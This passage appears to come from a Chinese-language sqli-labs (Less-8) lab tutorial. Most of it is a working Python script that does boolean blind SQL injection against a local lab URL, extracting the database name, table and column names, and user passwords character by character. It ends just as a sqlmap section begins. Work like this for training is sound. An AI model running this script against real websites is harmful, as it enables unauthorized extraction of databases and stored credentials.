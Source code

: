 盲注脚本

```
import requests

url = "http://192.168.168.151/sqli-labs/Less-8/?id=1"

result = ""
i = 0

while (True):
    i = i + 1
    head = 32
    tail = 127

    while (head < tail):
        mid = (head + tail) // 2

        # payload = "' and (ascii(substr(database(), %d, 1))) > %d--+" % (i, mid)
        payload = "' and (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()), %d, 1))) > %d--+" % (i, mid)
        # payload = "' and (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1), %d, 1))) > %d--+" % (i, mid)
        # payload = "' and (ascii(substr((select password from users limit 0,1), %d, 1))) > %d--+" % (i, mid)

        r = requests.get(url + payload)
        r.encoding = "utf-8"
        # print(url+payload)
        if "You are in" in r.text:
            head = mid + 1
        else:
            # print(r.text)
            tail = mid

    last = result

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```

猜解过程一样，略显无聊，但开始最好还是手工盲注练习一下，以后是可以自己写脚本的

后面猜解的思路也就是在获得表名后继续去获得字段名甚至其他

### **利用sqlmap注入:**

其中的technique选择的sql注入技术（BESUTQ）

B:布尔盲注
